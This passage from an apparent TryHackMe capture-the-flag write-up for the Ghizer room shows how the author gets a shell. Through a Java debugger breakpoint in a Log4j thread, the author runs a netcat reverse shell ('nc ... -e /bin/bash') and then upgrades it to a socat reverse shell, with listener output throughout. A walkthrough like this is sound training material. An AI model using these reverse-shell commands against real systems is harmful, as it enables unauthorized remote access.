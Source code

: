 ```
> stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
Set breakpoint org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
```

- Wait for the breakpoint hit:

```
Breakpoint hit: "thread=Log4j2-TF-4-Scheduled-1", org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run(), line=96 bci=0

Log4j2-TF-4-Scheduled-1[1] 
```

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# nc -lnvp 4446
listening on [any] 4446 ...
```

- Send a reverse shell payload:

```
Log4j2-TF-4-Scheduled-1[1] print new java.lang.Runtime().exec("nc 10.8.27.249 4446 -e /bin/bash")
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# nc -lnvp 4446
listening on [any] 4446 ...
connect to [10.8.27.249] from (UNKNOWN) [10.10.160.234] 50874
whoami;hostname;id;ip a
veronica
ubuntu
uid=1000(veronica) gid=1000(veronica) groups=1000(veronica),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:56:23:b0:c1:77 brd ff:ff:ff:ff:ff:ff
    inet 10.10.160.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::56:23ff:feb0:c177/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `veronica`!

**Stable shell via `socat`:**
```
/dev/shm/socat TCP:10.8.27.249:4445 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4445
2022/10/10 06:10:34 socat[52558] N opening character device "/dev/pts/3" for reading and writing
2022/10/10 06:10:34 socat[52558] N listening on AF=2 0.0.0.0:4445
                                                                 2022/10/10 06:11:16 socat[52558] N accepting connection from AF=2 10.10.160.234:38118 on AF=2 10.8.27.249:4445
                                                                     2022/10/10 06:11:16 socat[52558] N starting data transfer loop with FDs [5,5] and [7,7]
                                                  veronica@ubuntu:~$ 
veronica@ubuntu:~$ stty rows 22 columns 107
veronica@ubuntu:~$ export TERM=xterm-256color
veronica@ubuntu:~$ ^C
veronica@ubuntu:~$ 
```
